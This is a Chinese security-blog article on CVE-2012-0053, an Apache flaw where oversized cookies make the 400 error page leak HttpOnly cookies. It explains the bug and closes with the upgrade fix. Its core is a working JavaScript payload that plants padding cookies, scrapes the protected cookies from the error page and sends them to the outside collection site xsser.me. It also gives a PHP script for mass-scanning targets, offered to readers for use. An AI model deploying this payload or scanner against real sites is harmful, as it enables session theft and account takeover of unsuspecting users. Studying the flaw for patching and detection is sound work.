

# CVE-2012-0053 详解

2013/08/15 15:25 | [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

Apache 服务器 2.2.0-2.2.21 版本存在一个漏洞（CVE-2012-0053），攻击者可通过给网站植入超大的 Cookie，使得 HTTP 头超过 apache 的 LimitRequestFieldSize（最大请求长度）4192 字节，apache 便会返回 400 错误，状态页中就包含了 http-only 保护的 cookies。

## 0x01 详情

* * *

老外在 exploit-db 上公布了测试 apache 站点是否有这个问题的 js 代码。

[`www.exploit-db.com/exploits/18442/`](http://www.exploit-db.com/exploits/18442/)

代码稍微改一下就可以是一个收取 cookie 的 exp 了，看一下 xsser.me 的模块：

```
function setCookies() {
    /*apache server limit 8192*/
    var str = "";
    for (var i = 0; i < 819; i++) {
        str += "x";
    }
    for (i = 0; i < 10; i++) {
        var cookie = "ray" + i + "=" + str + ";path=/";
        document.cookie = cookie;
    }
}
function parseCookies() {
    if (xhr.readyState === 4 && xhr.status === 400) {
        var content = xhr.responseText.replace(/\r|\n/g, '').match(/<pre>(.+)<\/pre>/);
        content = content[1].replace("Cookie: ", "");
        cookies = content.replace(/ray\d=x+;?/g, '') try {
            var myopener = '';
            myopener = window.parent.openner.location;
            var myparent = '';
            myparent = window.parent.location;
        } catch(err) {
            myopener = '0';
            myparent = '0';
        }
        window.location = 'http://xsser.me/index.php?do=api&id={projectId}&location=' + escape(document.location) + '&toplocation=' + escape(myparent) + '&cookie=' + escape(cookies) + '&opener=' + escape(myopener);
    }
}
setCookies();
var xhr = window.XMLHttpRequest ? new XMLHttpRequest() : window.ActiveXObject ? new ActiveXObject("Microsoft.XMLHTTP") : new XMLHttpRequest();
xhr.onreadystatechange = parseCookies;
xhr.open("POST", "/?" + Math.random(), true);
xhr.send(null);

```

在执行这段代码后，会种下 10 个 819 字节长的 cookie，使得请求头超过最大请求长度，然后发起一次 POST 请求，待服务器返回 400 错误后从状态页中正则提取出经 http-only 保护的 cookies。



## 0x02 危害

* * *

关于此漏洞的利用，乌云上也有相关案例，如：

[WooYun: 腾讯分站 Apache 漏洞](http://www.wooyun.org/bugs/wooyun-2012-06947)

其实最经典的案例要数这个了：

[WooYun: XSS 漏洞渗透新浪微博《头条新闻》账号](http://www.wooyun.org/bugs/wooyun-2012-09777)

微博本身重要的 cookie 都设置了 httponly，但是有一个域名下有这个 apache 漏洞。

刚好也有一个 flash 的 xss，导致了此事件的发生。

## 0x03 后续

* * *

这个漏洞再次证明了：

本来是一个正常的功能，可因为设计不当成了 XSS 的帮凶。

下面的代码是之前的简单的写了一个验证是否存在这个漏洞的 php 脚本。

各位有需要的可以拿去使用下，现在估计存在这个问题的不多了，去年刚出来的时候可是大片存在。

```
<?php

//生成构造特殊 cookie
function cookie () {
    $str = "";
    for ($i=0; $i< 819; $i++) {
        $str .= "x";
    }
    $cookie= "secdragon=secdragon;path=/";
    for ($i = 0; $i < 10; $i++) {
         $cookie .= "xss".$i."=".$str.";path=/";
    }
    return $cookie;
    }

//获取 url，发包判断返回状态及结果
function my_get_http_result($url){
    if (empty($url)){
      return false;
    }
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, "$url");
    curl_setopt($ch, CURLOPT_TIMEOUT, 30); 
    curl_setopt($ch, CURLOPT_HEADER, 0); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);
    curl_setopt($ch, CURLOPT_COOKIE, cookie());
    $result = curl_exec($ch);
    $info = curl_getinfo($ch);
    curl_close($ch);
    if( $info['http_code'] == "400" )
        return $result;
    else{
        return '';
    }
}

//判断是否成功获取 cookie
function check($url){
    $a=my_get_http_result($url);
    if(strpos($a,'secdragon=secdragon'))
        echo $url.':success!'."<br/>";
    else{
        echo $url.':failed!'."<br/>";
    }
}

//获取需检测 ip，也可将 ip 放在同目录下的 ip.txt 中，一行一个 ip
$url=(@$_GET['url'])?$_GET['url']:@$argv[1];
if(!$url){
    $fp=fopen('ip.txt','r+');
    while($ipstr=fgets($fp)){
        if(preg_match('#[\w\.]+#',$ipstr,$match)){
            check($match[0]);
        }
    }
}else{
    check($url);
}

?>

```

## 0x04 修复方式

Apache2.2.22 及以上版本已经修复此问题，升级即可解决。

**Tags:** [httponly](http://drops.wooyun.org/tag/httponly), [xss](http://drops.wooyun.org/tag/xss)

版权声明：未经授权禁止转载 [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [Short XSS](http://drops.wooyun.org/papers/512)
*   [Bypass IE XSS Filter](http://drops.wooyun.org/tips/159)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [Zmap 详细用户手册和 DDOS 的可行性](http://drops.wooyun.org/tools/515)
*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)